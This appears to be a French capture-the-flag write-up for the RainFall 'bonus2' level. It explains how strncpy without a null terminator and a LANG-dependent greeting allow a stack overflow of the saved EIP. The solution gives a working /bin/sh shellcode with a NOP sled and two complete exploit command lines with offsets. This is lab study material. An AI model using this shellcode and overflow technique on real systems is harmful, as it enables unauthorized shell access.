 ## Bonus2

### **Déroulement du programme :** ###

- Une variable globale est initialisé à 0 (disons `g_lang`)

###### main()

- 2 buffers sont déclarés (disons `buff_1` et `buff_2`)
- Un pointeur sur `char` est déclaré (disons `lang`)
- Si `argc` est égal à 3
    - on copie 40 caractères de `argv[1]` dans `buff_1` avec `strncpy`
    - on copie 32 caractères de `argv[2]` dans `buff_2` avec `strncpy`
    - on stocke la valeur de la **variable d'environnement** `LANG` dans `lang`
    - si `lang` n'est pas `NULL`
        - si `lang` est égale à **"fi"**
            - on assigne 1 à `g_lang`
        - si `lang` est égale à **"nl"**
            - on assigne 2 à `g_lang`
    - on appel la fonction `greetuser` avec `buff_1` comme paramètre

###### greetuser()

- un pointeur sur `char` est déclaré (disons `str`)
- si `g_lang` vaut 1
    - on copie **"Hyvää päivää "** dans `str`
- si `g_lang` vaut 2
    - on copie **"Goedemiddag! "** dans `str`
- si `g_lang` vaut 0
    - on copie **"Hello "** dans `str`
- `buff_1` est concaténé à `str`
- `str` est imprimé sur la sortie standard


### **Objectif :** ###

On va chercher à utiliser une technique semblable à celle utilisée pour le **bonus0**. 

En effet on va se servir de `strncpy` pour que `buff_1` et `buff_2` ne forment plus qu'une chaîne (les deux buffers sont à la suite sur la **stack** et `strncpy` ne met pas de **'\0'** si le nombre de caractères copiés est supérieur ou égal à la taille du buffer de destination) au moment où `buff_1` est passé en paramètre à `greetuser`.

On va par la suite chercher à surcharger la sauvegarde de **EIP** présente dans la **stackframe** de `greetuser` par l'adresse d'une **variable d'environnement** contenant un **shell code**. 

Cela se fera au moment de la concaténation de `buff_1 + buff_2` à `str`.


### **Tests :** ###

Le comportement du programme varie en fonction de la valeur présente dans la variable d'environnement `LANG`.

Ainsi par défaut on obtient :

```
bonus2@RainFall:~$ ./bonus2 42 42
Hello 42
```

Quand on set `LANG` à **"fi"** (pour finnois) :

```
bonus2@RainFall:~$ ./bonus2 42 42
Hyvää päivää 42
```

Quand on set `LANG`  à **"nl"** (pour néerlandais) :

```
bonus2@RainFall:~$ ./bonus2 42 42
Goedemiddag! 42
```

Si on essaye d'overflow dans la situation de base on voit qu'on ne va juste pas assez loin pour écraser la sauvegarde de l'**EIP** :

```
Starting program: /home/user/bonus2/bonus2 $(python -c 'print("A"*100)') $(python -c 'print("B"*100)')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()
```

On voit ici qu'il ne nous manque que 2 octets pour que ça fonctionne, les chaînes **""Hyvää päivää ""** et **"Goedemiddag! "** étant plus longue que **"Hello "** nous allons pouvoir faire notre surcharge.

On trouve un offset de 18 avec `LANG` égale à **"fi"**, 23 en utilisant **"nl"**. 


### **Solution :** ###

On crée notre **shell code** :

```
export SHELL_CODE=$(python -c 'print "\x90"*30+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

On trouve son adresse à l'aide de :

```
x/20s *((char **) environ)
```

#### Cas 1 :

```
export LANG="fi"
```

```
./bonus2 $(python -c 'print("A"*100)') $(python -c 'print("B"*18 + "\x0c\xff\xff\xbf")')
```

#### Cas 2 :

```
export LANG="nl"
```

```
./bonus2 $(python -c 'print("A"*100)') $(python -c 'print("B"*23 + "\x0c\xff\xff\xbf")')
```